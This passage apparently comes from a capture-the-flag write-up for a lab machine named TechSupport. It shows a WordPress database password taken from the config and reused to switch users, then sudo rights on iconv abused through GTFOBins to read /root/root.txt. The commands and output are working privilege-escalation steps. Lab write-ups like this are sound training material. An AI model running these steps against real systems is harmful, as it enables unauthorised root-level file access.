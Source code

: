 ```
/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```
even though the database does reveal other usefull information the password can be used to swich to the user "scamsite" with the db password

```
www-data@TechSupport:/var/www/html/wordpress$ su scamsite
```

checking sudo privilege for that user shows we can run iconv with sudo and no password

```
scamsite@TechSupport:/var/www/html/wordpress$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```

checking gtfobins there is an escalation path https://gtfobins.github.io/gtfobins/iconv/#sudo

```
LFILE=file_to_read
./iconv -f 8859_1 -t 8859_1 "$LFILE"
```

This can be used to read the flag
```
scamsite@TechSupport:~$ LFILE=/root/root.txt
scamsite@TechSupport:~$ sudo iconv -f 8859_1 -t 8859_1 "$LFILE"
```


